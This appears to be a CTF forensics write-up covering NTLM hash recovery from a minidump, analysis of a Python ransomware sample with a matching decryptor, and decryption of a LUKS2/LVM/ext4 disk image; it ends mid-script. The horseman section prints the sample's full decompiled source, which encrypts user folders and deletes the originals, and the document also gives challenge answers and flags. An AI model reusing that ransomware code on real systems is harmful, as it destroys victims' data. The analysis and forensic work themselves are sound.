These are my forensics write-ups from ARA 7.0 2026 Quals. Each section follows the solving process recorded during the investigation.

## dumpling

Points: 100

### Description

Author : grb/getrektboy

Hannn forgot the password of his computer, can you help him? Help him recover the NTLM hash, pretty please. Zip password : rawrrr

Flag format : ARA7{all_lowercase_ntlm_hash_here}

### Solution

The challenge provided a crash minidump and asked me to recover an NTLM hash.



I used `pypykatz lsa minidump mem.DMP` to extract the credentials and recover the hash.



### Flag

```text
ARA7{f4b2619c33cea30e3159e7397fb1d6a7}
```

## horseman

Points: 413

### Description

Author: hyall

The workstation horseman has been compromised by a targeted ransomware attack. The user reported a complete system lockout immediately after running a suspicious software update.

https://drive.google.com/file/d/1s4DDKZ2Y33gG64jhLhgfT8xRWK7Tp0Fy/view?usp=sharing

password: 6e2267eb7c7862a4c57dbd6e256f9c70708a9bb7c26d0105db44d2418ec02553

nc chall-ctf.ara-its.id 7676

### Solution

I loaded the `.ad1` image into FTK Imager. It contained a C: drive with a single user.



Since the description mentioned malware, I checked Downloads first. I found `updater.exe`; exporting it revealed a Python executable icon, which made it worth investigating.



The remote service presented a series of questions. It allowed me to continue after incorrect responses, so I collected the full question set before proceeding.

```text
$ nc chall-ctf.ara-its.id 7676
HORSEMAN
You are analyzing a ransomware incident on workstation 'horseman-pc'.
Complete the investigation chain to recover the confidential data.


1. A suspicious executable was found in the Downloads folder.
What is the SHA256 Hash of this malware?

Answer format: Hexadecimal string

Answer >>
Wrong!


2. The malware targets specific users by incorporating their unique system identifier into the encryption key.
What is the SID (Security Identifier) of the infected user?

Answer format: S-1-5-21-xxxxxxxxxx-xxxxxxxxxx-xxxxxxxxx

Answer >>
Wrong!


3. The malware leaves a trace of its initialization within the Windows Event Logs.
What is the Event ID used by the malware to log its persistence entry?

Answer format: Integer

Answer >>
Wrong!


4. Within the description of the event log identified in Question 3, the malware stores a unique "Reference ID" or token.
What is the value of this Secret Token?

Answer format: String (Case Sensitive)

Answer >>
Wrong!


5. To establish an incident timeline, determine the exact time the malware recorded its persistence log.
What is the timestamp in UTC?

Answer format: YYYY-MM-DD HH:MM:SS

Answer >>
Wrong!


6. Based on the header analysis of the encrypted files and the malware's logic, identify the encryption algorithm and mode used.

Answer format: ALG-MODE (e.g. DES-ECB)

Answer >>
Wrong!


7. DATA RECOVERY (FINAL)
The user reports losing a critical file named 'confidential.txt' in the Documents folder.
Using your findings (SID + Token + IV), decrypt the file and reveal the secret string inside.

Answer format: String content of the file
encrypted file:(https://drive.google.com/file/d/1Ro-DZ8aiLq2XlOzScQVS0gAh64kKyOvE/view?usp=sharing)

Answer >>
Wrong!

Investigator, you missed some evidences. Review your answers and try again.
```

For the first question, I calculated the malware’s SHA-256 with `sha256sum updater.exe`.



For the second question, I exported the `SOFTWARE` hive and opened it in Registry Explorer. I checked `Microsoft\Windows NT\CurrentVersion\ProfileList` for the horseman user’s SID.



I extracted the executable with PyInstxtractor and decompiled `updater.pyc` with PyLingual. The source code contained the event ID `1337`.



```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'updater.py'
# Bytecode version: 3.14rc3 (3627)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import win32evtlog
import win32api
import win32security
import hashlib
import base64
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
def get_user_sid():
    try:
        username = win32api.GetUserName()
        domain = win32api.GetDomainName()
        sid_obj, _, _ = win32security.LookupAccountName(domain, username)
        sid_str = win32security.ConvertSidToStringSid(sid_obj)
        return sid_str
    except:
        return 'S-1-5-21-UNKNOWN'
def generate_and_log_token():
    token = ''.join(random.choices(string.ascii_uppercase + string.digits, k=16))
    msg = f'Update service initialized successfully. Reference ID: {token}.'
    try:
        h_event_log = win32evtlog.OpenEventLog(None, 'Application')
        win32evtlog.ReportEvent(h_event_log, win32evtlog.EVENTLOG_INFORMATION_TYPE, 0, 1337, None, [msg], None)
    except:
        pass
    return token
def encrypt_specific_folders(sid, token):
    raw_key = f'{sid}_{token}'.encode()
    key = hashlib.sha256(raw_key).digest()
    user_home = os.path.expanduser('~')
    target_folders = ['Documents', 'Downloads', 'Pictures']
    print('[*] Starting encryption...')
    for folder_name in target_folders:
        full_path = os.path.join(user_home, folder_name)
        if not os.path.exists(full_path):
            continue
        else:
            for root, dirs, files in os.walk(full_path):
                for filename in files:
                    if filename.lower().endswith(('.exe', '.py', '.dll', '.ini')):
                        continue
                    else:
                        filepath = os.path.join(root, filename)
                        try:
                            with open(filepath, 'rb') as f:
                                data = f.read()
                            iv = os.urandom(16)
                            cipher = AES.new(key, AES.MODE_CBC, iv)
                            ciphertext = cipher.encrypt(pad(data, AES.block_size))
                            enc_filename = base64.b64encode(filename.encode()).decode()
                            output_path = os.path.join(root, enc_filename)
                            with open(output_path, 'wb') as f:
                                f.write(iv)
                                f.write(ciphertext)
                            os.remove(filepath)
                            print(f'[+] Encrypted: {filename}')
                        except Exception as e:
                            pass
if __name__ == '__main__':
    sid = get_user_sid()
    token = generate_and_log_token()
    encrypt_specific_folders(sid, token)
    print('[!] DONE.')
```

The source code also showed that the reference ID was written to the event log. I exported `Application.evtx`, parsed it with EvtxECmd, and searched the CSV for event ID `1337`. The reference ID was `OOM9OV5VPRNIK3S2`.



```text
312,312,2026-01-30 16:02:39.0697403,1337,Info,Application,Application,0,0,horseman,16,,,,,,,,,,,,False,C:\Users\ACER\Downloads\ara7_horsemen\Application.evtx,0x80000000000000,0,"{""EventData"":{""Data"":""Update service initialized successfully. Reference ID: OOM9OV5VPRNIK3S2."",""Binary"":""""}}"
```

For question 5, I worked from the event timestamp and submitted the UTC value recorded in the solver below.



The source code identified the encryption mode as AES-CBC.



The target was `confidential.txt`, and the encryptor encoded filenames with Base64. I exported the corresponding file and used the following decryptor.

```python
import hashlib, glob, os
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

SID   = "S-1-5-21-2472383311-4215914088-769331741"
TOKEN = "OOM9OV5VPRNIK3S2"
KEY   = hashlib.sha256(f"{SID}_{TOKEN}".encode()).digest()

def dec_file(path):
    blob = open(path, "rb").read()
    iv, ct = blob[:16], blob[16:]
    if len(ct) == 0 or (len(ct) % 16) != 0:
        return None
    pt_padded = AES.new(KEY, AES.MODE_CBC, iv).decrypt(ct)
    try:
        return unpad(pt_padded, 16)
    except ValueError:
        return None

ct_path = "Y29uZmlkZW50aWFsLnR4dA=="

pt = dec_file(ct_path)
print(repr(pt.decode("utf-8", errors="replace")))
```

I submitted the answers with pwntools and received the flag.

`solve.py`

```python
from pwn import *

HOST = "chall-ctf.ara-its.id"
PORT = 7676

ANS1 = b"aeb4cc771ae6f76b17ad1e8fb44d69cf5e5cea24adb23af03cae1dc7fd5e743c"
ANS2 = b"S-1-5-21-2472383311-4215914088-769331741"
ANS3 = b"1337"
ANS4 = b"OOM9OV5VPRNIK3S2"
ANS5 = b"2026-01-30 11:02:39"
ANS6 = b"AES-CBC"
ANS7 = b"b967081a1a071c25e2c4437e2e124b60b73407ec8eceb52e1eecc00caa1873ba"

io = remote(HOST, PORT)
io.sendline(ANS1)
io.sendline(ANS2)
io.sendline(ANS3)
io.sendline(ANS4)
io.sendline(ANS5)
io.sendline(ANS6)
io.sendline(ANS7)
io.interactive()
```

### Flag

```text
ARA7{GG!_y0u_4r3_4_f0r3ns1c_M4st3r_&_R4ns0mw4r3_hUnT3R_HORSEMAN_SOLVED!!!!}
```

## kau siapo kampang

Points: 464

### Description

The author was learning to code while watching a childhood friend’s livestream: https://www.youtube.com/watch?v=zPHQjo1VhS8. Wrap the recovered answer in `ARA7{}`. If a seemingly correct answer is rejected, open a ticket.

Author: pujoganteng

Attachment: https://www.icloud.com/iclouddrive/018IsjjOxm_qNKnpqqgvvz_yA#afrizal%5F99315040-CB05-42ED-8125-EF919C5E8AFC

Password: `gakperlugantengyangpentingnyawit`

### Solution

I loaded the disk image into Autopsy and found five volumes.



Most of the contents looked like boot and EFI files. One stood out: `sda3-luks-master.bin`, which GPT identified as a dm-crypt volume key.



With GPT’s help, I built a script to use the recovered master key, parse the LVM2 metadata, locate the main logical volume, and read and carve its ext4 filesystem.

```python
from __future__ import annotations

import argparse
import base64
import json
import os
import re
import struct
from dataclasses import dataclass
from pathlib import Path
from typing import Dict, Iterable, Iterator, List, Optional, Tuple

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes


SECTOR_SIZE = 512


def _u16le(b: bytes, off: int = 0) -> int:
    return struct.unpack_from("<H", b, off)[0]


def _u32le(b: bytes, off: int = 0) -> int:
    return struct.unpack_from("<I", b, off)[0]


def _u64le(b: bytes, off: int = 0) -> int:
    return struct.unpack_from("<Q", b, off)[0]


class Luks2XtsReader:
    """
    Read plaintext bytes from the decrypted LUKS2 segment, using the dm-crypt XTS tweak
    equal to the underlying sector number (plain64). This matches the on-disk metadata
    in this challenge image (segment iv_tweak is 0).
    """

    def __init__(
        self,
        img_path: Path,
        master_key: bytes,
        part3_start_sector: int,
        segment_offset_bytes: int,
        *,
        sector_size: int = SECTOR_SIZE,
    ) -> None:
        if len(master_key) != 64:
            raise ValueError(f"Expected 64-byte master key for AES-XTS-256, got {len(master_key)} bytes")
        self.img_path = img_path
        self.fd = os.open(str(img_path), os.O_RDONLY)
        self.key = master_key
        self.part3_start_sector = part3_start_sector
        self.segment_offset_bytes = segment_offset_bytes
        self.sector_size = sector_size

        # Absolute offset to start of the encrypted segment (PV sector 0).
        self.abs_segment_off = part3_start_sector * sector_size + segment_offset_bytes

    def close(self) -> None:
        os.close(self.fd)

    def _decrypt_sector(self, sector_index: int, ct_sector: bytes) -> bytes:
        tweak = sector_index.to_bytes(8, "little") + b"\x00" * 8
        dec = Cipher(algorithms.AES(self.key), modes.XTS(tweak)).decryptor()
        return dec.update(ct_sector) + dec.finalize()

    def read_plain(self, pv_offset: int, length: int) -> bytes:
        """
        Read plaintext from the decrypted PV address space.
        pv_offset is in bytes from start of PV (segment start).
        """
        if length <= 0:
            return b""
        start_sector = pv_offset // self.sector_size
        start_in = pv_offset % self.sector_size
        end = pv_offset + length
        end_sector = (end + self.sector_size - 1) // self.sector_size
        nsectors = end_sector - start_sector

        ct = os.pread(self.fd, nsectors * self.sector_size, self.abs_segment_off + start_sector * self.sector_size)
        if len(ct) != nsectors * self.sector_size:
            raise IOError("Short read from image")

        pt = bytearray(len(ct))
        for i in range(nsectors):
            sector_num = start_sector + i
            pt[i * self.sector_size : (i + 1) * self.sector_size] = self._decrypt_sector(
                sector_num, ct[i * self.sector_size : (i + 1) * self.sector_size]
            )

        return bytes(pt)[start_in : start_in + length]


@dataclass(frozen=True)
class LvmLvMapping:
    pe_start_sectors: int
    extent_size_sectors: int
    lv_start_extent: int
    lv_extent_count: int

    @property
    def lv_start_pv_sector(self) -> int:
        return self.pe_start_sectors + self.lv_start_extent * self.extent_size_sectors


def parse_luks2_json_from_header(luks_header_first8k: bytes) -> Dict:
    idx = luks_header_first8k.find(b'{"keyslots"')
    if idx < 0:
        raise ValueError("Could not find LUKS2 JSON in header chunk")
    js = luks_header_first8k[idx:]
    nul = js.find(b"\x00")
    if nul > 0:
        js = js[:nul]
    return json.loads(js.decode("utf-8"))


def parse_lvm_metadata_text(pv_start: bytes) -> str:
    """
    The decrypted PV start contains at least one text metadata copy.
    Pull out the first 'contents = \"Text Format Volume Group\"' block onward.
    """
    # LVM metadata is mostly ASCII and can include NUL padding.
    s = pv_start.decode("utf-8", errors="ignore")
    # Heuristic: find the start of the VG block (e.g., 'ubuntu-vg {')
    m = re.search(r"\b[a-zA-Z0-9_.-]+-vg\s*\{", s)
    if not m:
        raise ValueError("Could not locate VG metadata in PV start chunk")
    return s[m.start() :]


def parse_lv_mapping_from_lvm_text(meta_text: str, lv_name: str = "ubuntu-lv") -> LvmLvMapping:
    # Parse extent_size and pe_start (both are in 512-byte sectors).
    m_ext = re.search(r"\bextent_size\s*=\s*(\d+)\b", meta_text)
    m_pe = re.search(r"\bpe_start\s*=\s*(\d+)\b", meta_text)
    if not (m_ext and m_pe):
        raise ValueError("Missing extent_size / pe_start in LVM metadata text")
    extent_size = int(m_ext.group(1))
    pe_start = int(m_pe.group(1))

    # Find LV block.
    # Example:
    # logical_volumes {
    # ubuntu-lv {
    # ...
    # segment1 {
    # start_extent = 0
    # extent_count = 2560
    # ...
    # f-string: use '\{{' so the resulting regex contains a literal '\{'
    m_lv = re.search(rf"\n{re.escape(lv_name)}\s*\{{", meta_text)
    if not m_lv:
        raise ValueError(f"LV {lv_name!r} not found in metadata")
    lv_tail = meta_text[m_lv.end() :]

    m_se = re.search(r"\bstart_extent\s*=\s*(\d+)\b", lv_tail)
    m_ec = re.search(r"\bextent_count\s*=\s*(\d+)\b", lv_tail)
    if not (m_se and m_ec):
        raise ValueError("Missing start_extent / extent_count for LV")
    start_extent = int(m_se.group(1))
    extent_count = int(m_ec.group(1))

    return LvmLvMapping(
        pe_start_sectors=pe_start,
        extent_size_sectors=extent_size,
        lv_start_extent=start_extent,
        lv_extent_count=extent_count,
    )


class Ext4Fs:
    def __init__(self, lv_reader: "LvReader") -> None:
        self.r = lv_reader
        sb = self.r.read(1024, 1024)
        if sb[0x38:0x3A] != b"\x53\xef":
            raise ValueError("Not an ext filesystem (bad magic)")

        self.inodes_count = _u32le(sb, 0x00)
        blocks_count_lo = _u32le(sb, 0x04)
        blocks_count_hi = _u32le(sb, 0x150) if len(sb) >= 0x154 else 0
        self.blocks_count = blocks_count_lo | (blocks_count_hi << 32)

        self.first_data_block = _u32le(sb, 0x14)
        self.log_block_size = _u32le(sb, 0x18)
        self.block_size = 1024 << self.log_block_size
        self.blocks_per_group = _u32le(sb, 0x20)
        self.inodes_per_group = _u32le(sb, 0x28)
        self.inode_size = _u16le(sb, 0x58)
        self.desc_size = _u16le(sb, 0xFE) or 32

        self.groups_count = (self.blocks_count + self.blocks_per_group - 1) // self.blocks_per_group

        # Group descriptor table starts at first_data_block + 1.
        self.gdt_off = (self.first_data_block + 1) * self.block_size

        self._gd_cache: Dict[int, Tuple[int]] = {}
        self._inode_cache: Dict[int, "Inode"] = {}

    def read_block(self, block_num: int) -> bytes:
        return self.r.read(block_num * self.block_size, self.block_size)

    def _read_gd_inode_table(self, group: int) -> int:
        if group in self._gd_cache:
            return self._gd_cache[group][0]

        off = self.gdt_off + group * self.desc_size
        gd = self.r.read(off, max(self.desc_size, 64))
        inode_table_lo = _u32le(gd, 0x08)
        inode_table_hi = _u32le(gd, 0x28) if len(gd) >= 0x2C else 0
        inode_table = inode_table_lo | (inode_table_hi << 32)
        self._gd_cache[group] = (inode_table,)
        return inode_table

    def read_inode(self, inum: int) -> "Inode":
        if inum in self._inode_cache:
            return self._inode_cache[inum]
        if inum <= 0:
            raise ValueError("Bad inode number")
        group = (inum - 1) // self.inodes_per_group
        idx = (inum - 1) % self.inodes_per_group
        inode_table_block = self._read_gd_inode_table(group)
        inode_off = inode_table_block * self.block_size + idx * self.inode_size
        raw = self.r.read(inode_off, self.inode_size)
        inode = Inode.from_bytes(inum, raw)
        self._inode_cache[inum] = inode
        return inode

    def iter_extents(self, inode: "Inode") -> List[Tuple[int, int, int]]:
        if not inode.uses_extents:
            raise ValueError(f"Inode {inode.inum} does not use extents (not implemented)")

        def parse_node(buf: bytes) -> List[Tuple[int, int, int]]:
            eh_magic = _u16le(buf, 0)
            if eh_magic != 0xF30A:
                raise ValueError("Bad extent header magic")
            eh_entries = _u16le(buf, 2)
            eh_depth = _u16le(buf, 6)
            out: List[Tuple[int, int, int]] = []
            base = 12
            if eh_depth == 0:
                for i in range(eh_entries):
                    ee_block = _u32le(buf, base + i * 12 + 0)
                    ee_len = _u16le(buf, base + i * 12 + 4)
                    ee_start_hi = _u16le(buf, base + i * 12 + 6)
                    ee_start_lo = _u32le(buf, base + i * 12 + 8)
                    length = ee_len & 0x7FFF
                    start = (ee_start_hi << 32) | ee_start_lo
                    out.append((ee_block, start, length))
            else:
                for i in range(eh_entries):
                    ei_block = _u32le(buf, base + i * 12 + 0)
                    ei_leaf_lo = _u32le(buf, base + i * 12 + 4)
                    ei_leaf_hi = _u16le(buf, base + i * 12 + 8)
                    leaf = (ei_leaf_hi << 32) | ei_leaf_lo
                    child = self.read_block(leaf)
                    out.extend(parse_node(child))
                # Internal nodes: the logical block from the index isn't strictly needed here,
                # leaf parsing yields correct logical blocks.
            return out

        exts = parse_node(inode.i_block)
        exts.sort(key=lambda t: t[0])
        return exts

    def iter_file_blocks(self, inode: "Inode") -> Iterator[bytes]:
        if inode.size <= 0:
            return
        if inode.uses_extents:
            yield from self._iter_file_blocks_extents(inode)
            return
        yield from self._iter_file_blocks_indirect(inode)

    def _iter_file_blocks_extents(self, inode: "Inode") -> Iterator[bytes]:
        remaining = inode.size
        for _lblock, pblock, blen in self.iter_extents(inode):
            for i in range(blen):
                if remaining <= 0:
                    return
                b = self.read_block(pblock + i)
                if remaining < self.block_size:
                    yield b[:remaining]
                    return
                yield b
                remaining -= self.block_size

    def _iter_file_blocks_indirect(self, inode: "Inode") -> Iterator[bytes]:
        """
        Fallback reader for inodes that do not use extents (legacy block pointers).

        Supports direct + single/double/triple indirect pointers and emits zero blocks
        for holes (block pointer == 0) to keep file length consistent.
        """
        remaining = inode.size
        zero_blk = b"\x00" * self.block_size

        def emit_data_block(block_num: int) -> Iterator[bytes]:
            nonlocal remaining
            if remaining <= 0:
                return
            data = zero_blk if block_num == 0 else self.read_block(block_num)
            if remaining < self.block_size:
                yield data[:remaining]
                remaining = 0
                return
            yield data
            remaining -= self.block_size

        ptrs = [_u32le(inode.i_block, i * 4) for i in range(15)]
        direct = ptrs[:12]
        single = ptrs[12]
        double = ptrs[13]
        triple = ptrs[14]
        ptrs_per_blk = self.block_size // 4

        def iter_ptr_block(block_num: int) -> Iterator[int]:
            data = self.read_block(block_num)
            for off in range(0, self.block_size, 4):
                yield _u32le(data, off)

        def emit_zero_blocks(n: int) -> Iterator[bytes]:
            nonlocal remaining
            for _ in range(n):
                if remaining <= 0:
                    return
                if remaining < self.block_size:
                    yield zero_blk[:remaining]
                    remaining = 0
                    return
                yield zero_blk
                remaining -= self.block_size

        # Direct blocks.
        for bno in direct:
            yield from emit_data_block(bno)
            if remaining <= 0:
                return

        # Single indirect.
        if remaining > 0:
            if single == 0:
                yield from emit_zero_blocks((remaining + self.block_size - 1) // self.block_size)
                return
            for bno in iter_ptr_block(single):
                yield from emit_data_block(bno)
                if remaining <= 0:
                    return

        # Double indirect.
        if remaining > 0:
            if double == 0:
                yield from emit_zero_blocks((remaining + self.block_size - 1) // self.block_size)
                return
            for ind in iter_ptr_block(double):
                if remaining <= 0:
                    return
                if ind == 0:
                    yield from emit_zero_blocks(ptrs_per_blk)
                    continue
                for bno in iter_ptr_block(ind):
                    yield from emit_data_block(bno)
                    if remaining <= 0:
                        return

        # Triple indirect (rare for normal files, but implemented for completeness).
        if remaining > 0:
            if triple == 0:
                yield from emit_zero_blocks((remaining + self.block_size - 1) // self.block_size)
                return
            for dbl in iter_ptr_block(triple):
                if remaining <= 0:
                    return
                if dbl == 0:
                    yield from emit_zero_blocks(ptrs_per_blk * ptrs_per_blk)
                    continue
                for ind in iter_ptr_block(dbl):
                    if remaining <= 0:
                        return
                    if ind == 0:
                        yield from emit_zero_blocks(ptrs_per_blk)
                        continue
                    for bno in iter_ptr_block(ind):
                        yield from emit_data_block(bno)
                        if remaining <= 0:
                            return

    def read_small_file(self, inode: "Inode", max_bytes: int = 2 * 1024 * 1024) -> bytes:
        if inode.size > max_bytes:
            raise ValueError("File too large for read_small_file")
        return b"".join(self.iter_file_blocks(inode))

    def list_dir(self, inode: "Inode") -> List[Tuple[str, int, int]]:
        if not inode.is_dir:
            raise ValueError("Not a directory")
        data = b"".join(self.iter_file_blocks(inode))
        out: List[Tuple[str, int, int]] = []
        off = 0
        while off + 8 <= len(data):
            inum = _u32le(data, off + 0)
            rec_len = _u16le(data, off + 4)
            name_len = data[off + 6]
            ftype = data[off + 7]
            if rec_len <= 0:
                break
            # Keep non-UTF8 bytes round-trippable on Linux.
            name = data[off + 8 : off + 8 + name_len].decode("utf-8", errors="surrogateescape")
            if inum != 0 and name:
                out.append((name, inum, ftype))
            off += rec_len
        return out

    def read_symlink_target(self, inode: "Inode") -> str:
        if not inode.is_symlink:
            raise ValueError("Not a symlink inode")
        # Fast symlink: target stored inline in i_block.
        if inode.size <= len(inode.i_block):
            return inode.i_block[: inode.size].decode("utf-8", errors="surrogateescape")
        raw = b"".join(self.iter_file_blocks(inode))[: inode.size]
        return raw.decode("utf-8", errors="surrogateescape")

    def resolve_path(self, path: str) -> int:
        if not path.startswith("/"):
            raise ValueError("Path must be absolute")
        cur = 2  # root inode
        parts = [p for p in path.split("/") if p]
        for p in parts:
            inode = self.read_inode(cur)
            ents = self.list_dir(inode)
            nxt = None
            for name, inum, ftype in ents:
                if name == p:
                    nxt = inum
                    break
            if nxt is None:
                raise FileNotFoundError(path)
            cur = nxt
        return cur


@dataclass(frozen=True)
class Inode:
    inum: int
    mode: int
    uid: int
    gid: int
    size: int
    flags: int
    i_block: bytes

    @property
    def ftype(self) -> int:
        return self.mode & 0xF000

    @property
    def is_dir(self) -> bool:
        return self.ftype == 0x4000

    @property
    def is_reg(self) -> bool:
        return self.ftype == 0x8000

    @property
    def is_symlink(self) -> bool:
        return self.ftype == 0xA000

    @property
    def uses_extents(self) -> bool:
        return (self.flags & 0x80000) != 0

    @staticmethod
    def from_bytes(inum: int, raw: bytes) -> "Inode":
        mode = _u16le(raw, 0x00)
        uid = _u16le(raw, 0x02)
        size_lo = _u32le(raw, 0x04)
        gid = _u16le(raw, 0x18)
        flags = _u32le(raw, 0x20)
        i_block = raw[0x28 : 0x28 + 60]
        size_high = _u32le(raw, 0x6C) if len(raw) >= 0x70 else 0
        size = size_lo | (size_high << 32)
        return Inode(inum=inum, mode=mode, uid=uid, gid=gid, size=size, flags=flags, i_block=i_block)


class LvReader:
    """
    Read bytes from the plaintext LV address space by translating to PV offsets.
    This challenge LV is a simple contiguous striped mapping (stripe_count=1).
    """

    def __init__(self, luks_reader: Luks2XtsReader, lv_start_pv_sector: int) -> None:
        self.lr = luks_reader
        self.lv_start_pv_sector = lv_start_pv_sector

    def read(self, lv_offset: int, length: int) -> bytes:
        pv_off = self.lv_start_pv_sector * SECTOR_SIZE + lv_offset
        return self.lr.read_plain(pv_off, length)


def find_flag_in_ext4(fs: Ext4Fs, start_path: str, *, max_file_bytes: int = 8 * 1024 * 1024) -> Tuple[str, str]:
    """
    Walk files under start_path looking for an ARA7{...} flag string.
    Returns (flag, path_found).
    """

    flag_re = re.compile(rb"ARA7\{[^\r\n\}]{1,200}\}")

    def walk_dir(inum: int, cur_path: str) -> Iterator[Tuple[str, Inode]]:
        inode = fs.read_inode(inum)
        for name, child_inum, ftype in fs.list_dir(inode):
            if name in (".", ".."):
                continue
            child_path = cur_path.rstrip("/") + "/" + name
            child = fs.read_inode(child_inum)
            if child.is_dir:
                yield from walk_dir(child_inum, child_path)
            elif child.is_reg:
                yield (child_path, child)

    start_inum = fs.resolve_path(start_path)
    for path, inode in walk_dir(start_inum, start_path):
        if inode.size <= 0:
            continue
        if inode.size > max_file_bytes:
            continue
        data = fs.read_small_file(inode, max_bytes=max_file_bytes)
        m = flag_re.search(data)
        if m:
            return (m.group(0).decode("utf-8", errors="replace"), path)
